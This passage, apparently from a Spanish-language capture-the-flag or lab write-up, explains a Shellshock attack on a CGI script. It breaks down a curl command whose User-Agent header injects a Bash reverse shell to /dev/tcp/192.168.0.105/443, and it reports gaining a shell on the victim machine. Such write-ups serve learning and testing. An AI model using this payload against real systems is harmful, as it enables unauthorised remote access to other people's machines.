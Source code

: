     - `curl` es una herramienta de línea de comandos utilizada para transferir datos desde o hacia un servidor utilizando diversos protocolos (HTTP, HTTPS, FTP, etc.).
2. **-H 'User-Agent: ...'**:
    
    - `-H` se utiliza para especificar un encabezado HTTP personalizado. En este caso, estamos enviando un encabezado `User-Agent`.
    - `'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.0.105/443 0>&1'` es el valor del encabezado `User-Agent` que intenta explotar la vulnerabilidad Shellshock.
3. **Exploit de Shellshock**:
    
    - `() { :; };` es la parte que explota Shellshock. Esta secuencia define una función vacía y luego termina, lo que permite inyectar código arbitrario a continuación.
    - `/bin/bash -i` abre una instancia interactiva de Bash.
    - `>& /dev/tcp/192.168.0.105/443` redirige tanto la salida estándar (`stdout`) como la salida de error estándar (`stderr`) a un socket TCP apuntando a la dirección IP `192.168.0.105` en el puerto `443`.
    - `0>&1` redirige la entrada estándar (`stdin`) a la salida estándar, completando el redireccionamiento necesario para una shell reversa.
4. **URL objetivo**:
    
    - `http://192.168.0.103/cgi-bin/underworld/` es la URL del servidor vulnerable que está ejecutando un script CGI. Este servidor está configurado de tal manera que las solicitudes HTTP con encabezados específicos serán procesadas por Bash.
_____
si unimos todas las piezas veremos que en la ruta especifica se esta ejecutando un comando el cual es **uptime**, es un comando típico en un sistema Unix/Linux que muestra información sobre el tiempo de actividad del sistema y la carga promedio. 

por lo que si la version de bash que corre dicho comando es un poco antigua podremos aprovechar la vulnerabilidad para así ejecutar comandos remotos.
____
![](attachment/b62f323043c22c09463ad8c69417b9bb.png)
____
ejecutando el comando anteriormente especificado pudimos enviarnos una reverse shell y poder así ganar acceso a la maquina victima.

por lo que ahora debemos o pivotar a otro usuario u obtener el root.

pero antes haremos un script en python que nos permita explotar la vulnerabilidad de forma automatizada.
